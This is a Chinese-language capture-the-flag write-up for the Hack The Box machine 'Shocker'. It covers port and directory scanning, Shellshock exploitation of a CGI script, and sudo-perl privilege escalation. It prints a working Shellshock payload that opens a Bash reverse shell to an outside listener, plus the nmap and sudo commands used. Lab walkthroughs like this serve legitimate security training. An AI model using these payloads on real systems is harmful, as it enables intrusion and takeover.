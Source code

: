 ```yaml
---
title: Shocker Writeup
date: 2020-11-10 05:34:53
category: Hack The Box
---
```


# Shocker Writeup

![](./1.png)

## 0x01 信息收集
就给一个 IP，不扫端口你还能咋地，`nmap` 走起来。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.56
```
发现两个开放端口。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面，title 无
- **2222**: OpenSSH 7.2p2，操作系统为 ubuntu linux

![](./2.png)
### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.56
```
无结果。

**共开放了 `tcp 80、2222` 端口。**

## 0x02 漏洞利用
根据端口逐一突破。

### 1、Port 80
Google 和 nmap 找了 apache 2.4.18 漏洞，无结果，目前只能从 web 入手。
80端口，web 应用，浏览器打开，就一个首页带个图片，没有功能按钮，看了下 console 没有什么提示，翻了下主页 html 也无发现。

![](./3.png)

目前为止没有入口，只能先扫下目录，用 dirbuster 跑默认字典，只有这几个结果。

![](./4.png)
**- icon**: 图片目录
**- cgi-bin**: 通用网关接口，可能存在 cgi 漏洞

cgi 使得用户可以通过浏览器执行脚本，这里需要找到具体的脚本路径，一般脚本位于 `/cgi-bin/*`，以此为 url 基础再跑一次扫描，限制后缀为 `.php,.sh,.py,.cgi,.pl`

![](./5.png)

发现存在脚本，路径为 `/cgi-bin/user.sh`

#### 手工利用

浏览器打开 `http://10.10.10.56/cgi-bin/user.sh`，burpsuite 抓包，会下载一个 `user.sh`（不知有何卵用）。
![](./17.png)

根据 cgi 漏洞，会在请求头里传递一个函数，后面跟着要执行的命令，构造方式比较复杂，懒得构造的我借助一下 `nmap`。
查过漏洞后知道有个代号叫 `shellshock`，正好也跟盒子名呼应，可以根据这个去查。
``` bash
cd /usr/share/nmap/scripts
ll | grep shellshock
```
![](./6.png)
不知道这个代号也没关系，通过关键字一样查，根据 url 参数，发现一个匹配的。
``` bash
cd /usr/share/nmap/scripts
grep "cgi-bin" -R ./ | grep -v cve
```
![](./7.png)

从脚本内容中找到 usage。

![](./8.png)
使用脚本打一下漏洞，地址指向 `burpsuite:8080`，同时配置 `burpsuite:8080` 重定向到靶机 `10.10.10.56:80`，这样扫描流量就会经过 burp 留下记录，方便后续调试。
``` java
nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
```
![](./9.png)
纳尼，没有扫出来？!

![](./10.png)
不慌，先看下具体请求。这里在三个 header 中注入了 sh 命令，执行结果在响应中可见，存在 RCE。

![](./11.png)
> #### 格式的坑
> 注意到下面还有条记录，执行 `ls` 返回 `500` 异常，这里经过调查发现有几个格式的坑，格式没对就不会回显或报异常。
> 此处因为 nmap 脚本有 bug，payload 少了一个 echo 导致扫描异常。
> 
> ![](./12.png)
> - 想正常回显，`() { :;};` 后面一定要先跟 `echo;`，再接上命令比如 `/bin/ls`
> - 命令一定要用绝对路径，比如 `ls` 要改成 `/bin/ls`
> 
> 所以这里正确构造应该是：`() { :;}; echo; /bin/ls /`。
> 
> ![](./13.png)
> 修改 nmap 脚本，把当 "cmd 为空" 时的 `echo;` 挪到下面。
> 
> ![](./18.png)
> ![](./19.png)
> 以 `whoami` 测试，返回用户名 `shelly`，扫描功能正常。
> ``` java
> nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=/usr/bin/whoami 127.0.0.1
> ```
> ![](./20.png)

综上所述，kali 监听 4444，发送反弹 shell 命令，获取到 `普通用户 shelly` 权限。
``` text
GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo;/bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
Host: localhost:8080
Connection: close
```
![](./14.png)

> **MSF**
> 比较简单啦，晚点再补充。

### 2、Port 2222 
没研究 233

## 0x03 提权
先检查 sudo 权限表配置 `sudo -l`，发现可以免密执行 `perl` 脚本，得。

![](./15.png)
在刚刚 `shell` 中 sudo 执行一句话 perl `/bin/bash`，获得 root 权限。
``` bash
sudo perl -e 'exec("/bin/bash")'
```
![](./16.png)

## 0x04 攻击节点
#### 端口扫描 -> 目录扫描 -> 80.cgi-bin(shellshock)(shelly) -> sudo 配置不当提权(root)

## 0x05 学到什么
#### 1、对付 web 应用，没有入口的时候爬目录
#### 2、提权先考虑 sudo 配置不当，或利用 sudo 相关提权漏洞
